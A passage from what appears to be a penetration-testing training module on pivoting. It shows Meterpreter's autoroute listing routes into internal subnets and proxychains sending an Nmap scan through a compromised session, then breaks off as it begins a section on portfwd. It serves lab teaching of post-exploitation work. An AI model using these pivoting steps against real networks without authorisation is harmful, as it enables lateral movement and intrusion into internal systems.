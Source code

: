 
After adding the necessary route(s) we can use the `-p` option to list the active routes to make sure our configuration is applied as expected.

#### Listing Active Routes with AutoRoute

    meterpreter > run autoroute -p
    
    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]
    
    Active Routing Table
    ====================
    
       Subnet             Netmask            Gateway
       ------             -------            -------
       10.129.0.0         255.255.0.0        Session 1
       172.16.4.0         255.255.254.0      Session 1
       172.16.5.0         255.255.254.0      Session 1
    

As you can see from the output above, the route has been added to the 172.16.5.0/23 network. We will now be able to use proxychains to route our Nmap traffic via our Meterpreter session.

#### Testing Proxy & Routing Functionality

    matmarqx@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
    
    ProxyChains-3.1 (http://proxychains.sf.net)
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
    Initiating Parallel DNS resolution of 1 host. at 13:40
    Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
    Initiating Connect Scan at 13:40
    Scanning 172.16.5.19 [1 port]
    |S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
    Discovered open port 3389/tcp on 172.16.5.19
    Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
    Nmap scan report for 172.16.5.19 
    Host is up (0.12s latency).
    
    PORT     STATE SERVICE
    3389/tcp open  ms-wbt-server
    
    Read data files from: /usr/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
    

## Port Forwarding

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

#### Portfwd options
